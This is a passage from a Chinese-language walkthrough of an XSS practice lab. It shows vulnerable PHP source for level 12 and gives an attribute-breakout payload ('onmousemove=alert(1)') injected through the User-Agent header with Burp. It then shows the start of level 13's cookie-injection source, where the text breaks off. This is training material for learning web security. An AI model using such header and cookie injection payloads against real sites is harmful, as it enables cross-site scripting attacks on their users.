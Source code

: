 ```php
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level12.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

### 注入过程

F12查看元素

[![img](https://img.cccb.rr.nu/path/202504101640329.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131751362.png)

很明显跟第11关一样，只不过这关是`User-Agent`头注入，bp抓包修改。

[![img](https://img.cccb.rr.nu/path/202504101640330.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131753390.png)

payload：



```vbnet
" type="text" onmousemove="alert(1)
```

## Level13 (Cookie注入)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level14.php"; 
}
</script>
<title>欢迎来到level13</title>
</head>
<body>
<h1 align=center>欢迎来到level13</h1>
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```